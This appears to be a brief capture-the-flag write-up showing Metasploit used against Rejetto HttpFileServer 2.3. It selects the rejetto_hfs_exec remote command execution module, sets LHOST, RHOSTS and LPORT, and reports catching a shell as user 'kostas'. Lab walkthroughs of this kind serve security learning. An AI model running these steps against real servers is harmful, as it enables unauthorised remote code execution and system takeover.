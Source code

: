 
~~~
search hfs 2.3
~~~

~~~
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/git_client_command_exec  2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2014-9390
   1  exploit/windows/http/rejetto_hfs_exec       2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

~~~

~~~
use 1
~~~

fill out LHOST, RHOSTS, and double-check LPORT is on an unused port then exploit

we catch a shell as user 'kostas'
~~~
C:\Users\kostas\Desktop
~~~